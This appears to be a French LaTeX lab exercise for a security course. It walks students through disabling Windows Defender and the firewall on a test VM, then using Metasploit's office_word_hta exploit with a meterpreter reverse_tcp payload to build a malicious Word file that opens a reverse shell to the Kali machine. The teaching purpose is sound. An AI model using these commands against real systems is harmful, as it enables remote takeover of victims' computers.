 \documentclass{article}
\newcommand{\tit}[1]{
\begin{center}
    \Large{\textbf{{#1}}}
\end{center}
}
\begin{document}
\tit{TP N\(^{\boldsymbol{\circ}}\)\hspace{0.1cm}2}

\vspace{0.5cm}

\begin{enumerate}
    \item Lancer les deux machines virtuelles kali linux et windows , et assure la connectiviter avec la commande \texttt{ping} .
\item Desactiver windows defender et le par-feu de la machine virtuelle windows , pourquoi les desactiver ? 
\item Installer office 2013 sur la machine virtuelle windows
\item On va utilier metasploit dans kali linux taper les commandes suivant :
\begin{itemize}
    \item \texttt{msfconsole} pour lancer l'interface de commande principale de Metasploit.
    \item \texttt{use exploit/windows/fileformat/office\_word\_hta} pour sélectionner l'exploit qui permet d'intégrer un exécutable malveillant dans un fichier word.
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} : définit le payload utilisé pour établir une connexion inverse (reverse shell) depuis la machine cible Windows vers Kali Linux via TCP , c'est quoi reverse shell?
    \item \texttt{show options} : affiche les options actuelles du payload. Vérifiez que l'option \texttt{LHOST} correspond bien à l'adresse IP de votre machine Kali. Si ce n'est pas le cas, utilisez la commande : \texttt{set LHOST <IP\_KALI>}. Assurez-vous également que \texttt{LPORT} est configuré sur 4444 , Que remarquez-vous ?
    \item \texttt{exploit} : lance l'écoute et attend que la victime ouvre le fichier malveillant pour établir la connexion Meterpreter, expliquer toute les lignes que vous avez apres l'execution de cetter commande.
\end{itemize}


\end{enumerate}
\end{document}
